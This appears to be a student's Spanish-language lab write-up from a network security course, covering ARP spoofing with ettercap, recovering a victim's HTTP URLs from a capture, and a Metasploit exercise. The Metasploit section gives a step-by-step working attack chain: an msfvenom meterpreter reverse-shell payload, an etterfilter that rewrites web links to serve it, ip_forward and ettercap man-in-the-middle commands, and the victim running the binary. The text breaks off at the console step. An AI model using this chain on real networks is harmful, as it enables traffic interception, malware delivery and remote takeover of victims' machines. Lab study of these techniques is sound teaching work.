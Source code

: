 
> `xdg-open &` ← no se si hace falta (se supone que corre en segundo plano)
> `ettercap -P remote_browser -T -q -i ens33 -M arp:remote //10.11.49.55/ //10.11.48.1/`

# F - Spoffing

Mediante `arpspoofing` entre una máquina objeto (víctima) y el router del laboratorio obtenga todas las URL HTTP visitadas por la víctima.

- Utilizamos el archivo `pcap` obtenido de la máquina de nuestro compañero.

Se puede ver en _Statistics > HTTP > Requests

# G - MetaSploit


1. Instalamos *Metasplot* siguiente [este tutorial](https://computingforgeeks.com/install-metasploit-framework-on-debian/).
2. Creamos payload:
> `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.48.55 LPORT=5555 -f elf > payload.bin`

3. Lo mejor es subir el payload a tu servidor de apache, mueve el archivo con
> `cp payload.bin /var/www/html/`

4. Creamos `ett.filter`:
> `nano ett.filter`
```bash
if (ip.proto == TCP && tcp.src == 80) {
	replace("a href", "a href=\"http://10.11.49.55/payload.bin\">");
	msg("replaced href.\n");
}
```
5. Configuramos:
> `etterfilter ett.filter -o ig.ef`

6. Activamos el ip_forwarding
> `echo 1 > /proc/sys/net/ipv4/ip_forward`

7. Encendemos el ettercap con el filtro:
> `ettercap -T -F ig.ef -i ens33 -q -M arp:remote //10.11.49.54/ //10.11.48.1/`

8. Llegados a este punto, desde el cliente vemos la pagina y nos descargamos el virus:
>  `curl example.com

> [!Note]
> Podemos hacer tambien un `curl`, y descargar el link del payload con `wget`.

9. Damos permisos de ejecucion 
> `chmod +x payload.bin`


10. Ejecutamos el virus antes de hacer el exploit
> `./payload.bin`


11. entramos en la consola de metasploit:
